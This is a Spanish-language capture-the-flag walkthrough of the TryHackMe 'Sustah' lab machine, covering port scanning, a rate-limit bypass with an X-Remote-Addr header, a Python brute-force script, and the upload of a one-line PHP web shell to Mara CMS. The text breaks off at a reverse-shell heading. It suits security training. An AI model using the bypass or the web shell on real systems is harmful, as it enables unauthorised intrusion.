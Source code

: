 ## TryHackMe  <> Sustah
![image](https://github.com/Esevka/CTF/assets/139042999/0db32652-0c5f-4694-938c-dc2223044a5c)

Enunciado : Responder a una serie de preguntas y  obtener las flags de usuario y root.
---
---

## Escaneo de puertos

-Lanzamos una traza ICMP(ping) para ver si la maquina esta activa, segun el ttl obtenido, por proximidad al valor 64 podriamos decir que es una maquina Linux.

    ┌──(root㉿kali)-[/home/kali/Desktop/ctf/sustah]
    └─# ping -c1 10.10.171.9
    PING 10.10.171.9 (10.10.171.9) 56(84) bytes of data.
    64 bytes from 10.10.171.9: icmp_seq=1 ttl=63 time=93.8 ms
    
    --- 10.10.171.9 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 93.760/93.760/93.760/0.000 ms

-Reporte Nmap (Obtenemos puertos abiertos servicios y versiones que estan corriendo).

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/sustah/nmap]
    └─# nmap -p- --open -sS --min-rate 5000 -n -Pn 10.10.171.9 -vvv -oN open_ports                                                      
    Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-07 10:12 CEST
    Initiating SYN Stealth Scan at 10:12
    PORT     STATE SERVICE REASON
    22/tcp   open  ssh     syn-ack ttl 63
    80/tcp   open  http    syn-ack ttl 63
    8085/tcp open  unknown syn-ack ttl 63
    
                                                                                                                                                                                  
    ┌──(root㉿kali)-[/home/…/Desktop/ctf/sustah/nmap]
    └─# nmap -p 22,80,8085 -sCV 10.10.171.9 -vvv -oN info_ports                   
    Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-07 10:14 CEST
    Scanned at 2023-08-07 10:14:10 CEST for 10s
    
    PORT     STATE SERVICE REASON         VERSION
    22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 bda4a3ae66681d74e1c06aeb2b9bf333 (RSA)
    | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC7zuGtMGKQdFrh6Y8Dgwdo7815klLm7VzG05KNvT112MyF41Vxz+915iRz9nTSQ583i1cmjHp+q+fMq+QGiO0iwIdYN72jop6oFxqyaO2ZjBE3grWHSP2xMsTZc7qXgPu9ZxzVAfc/4mETA8B00yc6XNApJUwfJOYz/qt/pb0WHDVBQLYesg+rrr3UZDrj9L7KNFlW74mT0nzace0yqtcV//dgOMiG8CeS6TRyUG6clbSUdr+yfgPOrcUwhTCMRKv2e30T5naBZ60e1jSuXYmQfmeZtDZ4hdsBWDfOnGnw89O9Ak+VhULGYq/ZxTh31dnWBULftw/l6saLaUJEaVeb
    |   256 9adb73790c72be051a8673dcac6d7aef (ECDSA)
    | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBENNM4XJDFEnfvomDQgg0n7ZF+bHK+/x0EYcjrLP2BGgytEp7yg7A36KajE2QYkQKtHGPamSRLzNWmJpwzaV65w=
    |   256 648d5c79dee1f73f087cebb7b324641f (ED25519)
    |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOd1NxUo0xJ3krpRI1Xm8KMCFXziZngofs/wjOkofKKV
    
    80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
    | http-methods: 
    |_  Supported Methods: GET HEAD POST OPTIONS
    |_http-title: Susta
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    
    8085/tcp open  http    syn-ack ttl 63 Gunicorn 20.0.4
    |_http-title: Spinner
    |_http-server-header: gunicorn/20.0.4
    | http-methods: 
    |_  Supported Methods: HEAD OPTIONS POST GET
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    

## Analisis de vulnerabilidades en los servicios y explotacion de los mismos.

 -Segun el launchpad obtenido de los servicios OpenSSH y Apache conjunto con el ttl de la traza ICMP, pordriamos decir que estamos delante de una maquina LINUX.

 ![image](https://github.com/Esevka/CTF/assets/139042999/49d7dfd9-eb31-4b51-9b5c-df8ffe9b07b8)

-Puerto 80

  Cargamos la web pero no encontramos nada que nos pueda valer.
  Fuzzeamos con gobuster  pero no encontramos nada.

-Puerto 8085

  Cargamos la web y encontramos una ruleta de la suerte realizada en .js, analizamos su contenido.

  ![image](https://github.com/Esevka/CTF/assets/139042999/d3ffcce9-de04-4075-909f-fd05dc7b251c)

  Supuestamente si metemos el numero correcto nos debe de dar algo, vamos a interceptar la request con Burpsuite y vemos que hace esto.

  Request, mediante el metodo POST envia una variable llamada number=

  ![image](https://github.com/Esevka/CTF/assets/139042999/c5d8ff03-e3d0-4c0a-84ab-4244fbfae3a6)

  Response, como vemos en la imagen las request estan limitadas en tiempo ya que la cabezera de la  respuesta incluye X-RateLimit-Limit.
  
  ![image](https://github.com/Esevka/CTF/assets/139042999/ad9b7652-bb4d-4423-8d41-1bf415509532)

  INFO:
  
    ¿Qué es el Rate Limit?
    El rate limit es el número de llamadas a la API que el usuario o aplicación pueden realizar dentro de un determinado período de tiempo.
    
    RateLimit-Limit: Indica cuántas llamadas tu aplicación puede hacerle a nuestra API por ventana de tiempo. Como ya hemos dicho anteriormente, 
                      nuestra ventana de tiempo es de 1 minuto.
    
    RateLimit-Remaining: Indica el total de solicitudes del cliente disponibles en la ventana de tiempo.
    
    RateLimit-Reset: Indica el tiempo restante para que el límite de solicitudes sea redefinido.


---
Explotamos la aplicacion por fuerza bruta.

1)Nesesitamos bypasear el limite de llamadas a la API.

Info --> https://book.hacktricks.xyz/pentesting-web/rate-limit-bypass

En la cabezera de la request vamos a incluir la siguiente propiedad  (X-Remote-Addr: 127.0.0.1)

        En el caso de "X-Remote-Addr: 127.0.0.1", el encabezado parece indicar la dirección IP del cliente remoto (la computadora o el dispositivo del usuario)
        que realizó la solicitud HTTP al servidor. La dirección IP 127.0.0.1 es una dirección IP especial que apunta a la interfaz de bucle invertido de la máquina local, 
        lo que significa que se refiere a la misma máquina en la que se ejecuta el servidor.

Como vemos hemos podidos saltar el limite, la respuesta ya no incluye en su cabecera los x-limit.

![image](https://github.com/Esevka/CTF/assets/139042999/cc781051-3f59-4c54-b9fe-28b1d30b1efd)

2)Nos vamos a crear un script en python donde vamos a realizar request incluyendo en el encabezado x-Remote y como data le enviamos la variable number con un valor numerico, veremos si damos con el numero correcto.

Contenido del spinner.py, el range del buble for lo aumentaremos en el caso que no este el numero entre 0 y 20000.

    import requests
    
    def spinner(number):
    
            url = 'http://sustah.thm:8085/'
            custom_header = {'X-Remote-Addr':'127.0.0.1'}
            data_number = {'number':'{}'.format(number)}
    
            r = requests.post(url,headers=custom_header,data=data_number)
    
            if 'Spin the wheel and try again' in r.text:
                    print(number)
            else:
                    print(number)
                    print(r.text)
                    exit()
                    
    def main():
            for x in range(0,20000):
                    spinner(x)
    
    if __name__=='__main__':
            main() 

Ejecutamos script y esperamos la gran respuesta.

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/sustah/script]
    └─# python3 spinner.py
    [...]
    10913
    10914
    10915
    [...]
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Spinner</title>
        <link rel="stylesheet" href="/static/style.css">
    </head>
    <body>
      <strong>0</strong>
        <h1>Spinner Wheel</h1>
    [...]
    
        </form>
        <h3>path: /You....P@th</h3>
    </body>
    <script src="/static/index.js"></script>
    
    </html>

Acabamos de obtener el numero correcto y la respuesta que incluye un path  path: /You....P@th

---

Accedemos al path obtenido

Dicho path solo es accesible desde el puerto 80, esta url nos da acceso a MARA CMS

Navegando por lo web si entramos desde el menu Sample Pages ---> Test Page , encontramos una credenciales de acceso

![image](https://github.com/Esevka/CTF/assets/139042999/f83102c7-eb69-4f82-bed4-b65da2d27c0a)

Nos creamos un usuario y nos logueamos con el

![image](https://github.com/Esevka/CTF/assets/139042999/9e18183c-54e2-438b-a008-2781e1138b71)\

![image](https://github.com/Esevka/CTF/assets/139042999/87019269-68ed-49b7-acb4-53cbd77651a4)

Desde el menu File-->new,nos da opcion a subir ficheros al sistema, por lo que vamos a subir un fichero llamado rce.php que nos permitar ejecutar comandos desde la url

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/sustah/script]
    └─# cat rce.php          
    <?php
    system($_GET['cmd']);
    ?>

Una vez subido el fichero el CMS nos muestra un pequeno log indicando que el proceso se ha realizado correctamente y el path donde se ha guardado nuestro fichero.

![image](https://github.com/Esevka/CTF/assets/139042999/c69e56d4-ccc1-4f2f-bc82-e8a85f521f73)

Ejecutamos nuestro rce y vemos que funciona 

![image](https://github.com/Esevka/CTF/assets/139042999/4c49ef16-32a9-49eb-8eac-8e0f4e7795d0)


## Obtenemos Reverse Shell












